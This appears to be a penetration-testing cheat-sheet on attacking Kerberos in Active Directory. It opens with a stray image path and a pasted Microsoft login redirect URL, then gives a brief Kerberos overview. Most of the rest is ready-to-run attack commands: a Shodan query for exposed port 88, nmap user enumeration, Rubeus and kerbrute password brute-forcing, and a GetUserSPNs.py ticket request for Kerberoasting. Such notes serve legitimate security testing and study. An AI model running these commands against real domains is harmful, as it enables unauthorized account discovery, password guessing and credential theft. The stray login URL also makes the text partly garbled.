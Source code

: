 https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1670595664&rver=7.3.6962.0&wp=MBI_SSL_SHARED&lc=1033&id=250206&cbcxt=sky&ru=https%3A%2F%2Fonedrive%2Elive%2Ecom%2F%3Fv%3Dphotos%26sc%3D2%26id%3Droot%26qt%3Dallmyphotos%26onThisDay%3Dtrue%26moj%3DonThisDay%26startDate%3D12%252D09%252D2022%26cid%3DBAC84FD3BA87BB54&wreply=https%3A%2F%2Fonedrive%2Elive%2Ecom%2F%3Fv%3Dphotos%26sc%3D2%26id%3Droot%26qt%3Dallmyphotos%26onThisDay%3Dtrue%26moj%3DonThisDay%26startDate%3D12%252D09%252D2022%26cid%3DBAC84FD3BA87BB54## What is Kerberos
```

Kerberos is an authentication protocol that is used to verify the identity of a user or host. This topic contains information about Kerberos authentication in Windows Server 2012 and Windows 8.

Source: https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview

Benefits
**Delegated authentication.**
**Single sign on.**
**Interoperability.**
**More efficient authentication to servers.**
**Mutual authentication.**

```

## Shodan
```
port:88 kerberos
```
## Username bruteforce
```
https://github.com/ropnop/kerbrute

nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='ignite.local',userdb=/root/user.txt 192.168.1.105**



.\Rubeus.exe brute /passwords:password.txt /WIN-S0V7KMTVLD2.ignite.local /outfile:ignite.txt


```

HackTricks Automatic Commands
```
Protocol_Name: Kerberos    #Protocol Abbreviation if there is one.
Port_Number:  88   #Comma separated if there is more than one.
Protocol_Description: AD Domain Authentication         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for Kerberos
  Note: |
    Firstly, Kerberos is an authentication protocol, not authorization. In other words, it allows to identify each user, who provides a secret password, however, it does not validates to which resources or services can this user access.
    Kerberos is used in Active Directory. In this platform, Kerberos provides information about the privileges of each user, but it is the responsability of each service to determine if the user has access to its resources.

    https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88

Entry_2:
  Name: Pre-Creds
  Description: Brute Force to get Usernames
  Command: nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="{Domain_Name}",userdb={Big_Userlist} {IP}

Entry_3:
  Name: With Usernames
  Description: Brute Force with Usernames and Passwords
  Note: consider git clonehttps://github.com/ropnop/kerbrute.git ./kerbrute -h

Entry_4:
  Name: With Creds
  Description: Attempt to get a list of user service principal names
  Command: GetUserSPNs.py -request -dc-ip {IP} active.htb/svc_tgs
```

